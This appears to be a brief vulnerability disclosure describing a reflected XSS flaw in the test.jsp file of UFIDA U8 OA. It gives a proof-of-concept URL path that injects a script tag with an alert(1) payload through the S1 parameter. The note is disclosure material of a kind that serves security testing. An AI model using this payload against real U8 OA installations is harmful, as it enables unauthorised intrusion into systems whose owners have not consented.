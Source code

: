 # UFIDA U8 OA test.JSP XSS vulnerability

## Vulnerability Description

There is an XSS vulnerability in the UFIDA U8 OA test.JSP file, which can trigger a pop-up using the\<script>tag.

## Vulnerability Impact

UFIDA U8 OA

## Recurrence of vulnerabilities

The login page is as follows

![image](https://khykhy.oss-cn-hangzhou.aliyuncs.com/4881ce3dc4508ae81b24857e3066ae2.png)



Verify POC

![image](< https://khykhy.oss-cn-hangzhou.aliyuncs.com/ab73fba58c6d18f0ac4552cab617c2f.png>)

/yyoa/common/js/menu/test.jsp?doType=101\&S1=\<script>alert(1)\</script>
